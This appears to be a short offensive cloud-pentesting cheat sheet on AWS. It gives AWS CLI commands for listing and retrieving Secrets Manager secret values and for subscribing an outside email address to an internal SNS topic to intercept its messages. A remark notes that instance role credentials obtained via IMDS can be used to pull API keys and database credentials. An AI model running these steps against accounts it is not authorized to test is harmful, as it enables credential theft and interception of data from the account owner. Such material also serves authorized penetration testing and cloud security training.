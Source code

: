 ```yaml
---

---
```

Enumerate and exploit Secrets Manager, SNS topics, or other services that may leak sensitive data.
### Secrets Manager Enumeration & Exfiltration
---
List All Secrets (if permitted)
```bash
aws secretsmanager list-secrets --region us-east-1
```
Retrieve Secret Values
```bash
aws secretsmanager get-secret-value \
  --secret-id <SecretName> \
  --region us-east-1
```
!!! info "note"
	If a role or user attached to the instance (via IMDS) has `secretsmanager:GetSecretValue`, you can retrieve high-value secrets (API keys, database credentials, etc.).
### Simple Notification Service (SNS) Enumeration
---
**Identify Topic ARNs**
If you’ve discovered an SNS topic ARN (e.g., via Secrets Manager or CloudFormation), subscribe to it to intercept messages (which sometimes contain provisioning or “onboarding” notifications).
```bash
aws sns list-topics --region us-east-1
```
Subscribe to a topic
```bash
aws sns subscribe \
  --topic-arn arn:aws:sns:us-east-1:<ACCOUNT_ID>:Onboarding_New_Internal_Dev_Msg_01 \
  --protocol email \
  --notification-endpoint you@example.com \
  --region us-east-1
```
